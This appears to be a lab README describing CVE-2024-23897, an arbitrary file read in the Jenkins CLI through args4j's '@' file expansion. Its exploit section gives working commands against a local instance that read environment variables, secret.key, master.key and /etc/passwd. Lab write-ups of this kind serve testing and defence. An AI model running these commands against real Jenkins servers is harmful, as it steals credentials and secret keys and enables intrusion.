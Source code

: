 # Jenkins Arbitrary File Read Vulnerability Through the CLI (CVE-2024-23897)

[中文版本(Chinese version)](README.zh-cn.md)

Jenkins is an open source automation server.

Jenkins uses the [args4j library](https://github.com/kohsuke/args4j) to parse command arguments and options on the Jenkins controller when processing CLI commands. This command parser has a feature that replaces an `@` character followed by a file path in an argument with the file’s contents (expandAtFiles), which leads attackers to read arbitrary files from Jenkins server.

This vulnerability affects Jenkins prior to 2.441.

References:

- <https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314>
- <https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw>

## Vulnerable Environment


## Exploit

First, you should download the command-line client `jenkins-cli.jar` by `http://localhost:9080/jnlpJars/jenkins-cli.jar`.

Read the file `/proc/self/environ` to get the Jenkins base directory, `JENKINS_HOME=/var/jenkins_home`:

```
java -jar jenkins-cli.jar -s http://localhost:9080/ -http help 1 "@/proc/self/environ"
```

![](1.png)

Then, you can use it to retrieve sensitive files such as `secrets.key` or `master.key` (anonymously, only the first line of the file can be read via an error on the command line):

```
java -jar jenkins-cli.jar -s http://localhost:9080/ -http help 1 "@/var/jenkins_home/secret.key"
```

![](2.png)

```
java -jar jenkins-cli.jar -s http://localhost:9080/ -http help 1 "@/var/jenkins_home/secrets/master.key"
```

![](3.png)

Because the "Allow anonymous read access" is turned on, you can also read the full content of a file:

```
java -jar jenkins-cli.jar -s http://localhost:9080/ -http connect-node "@/etc/passwd"
```

![](4.png)
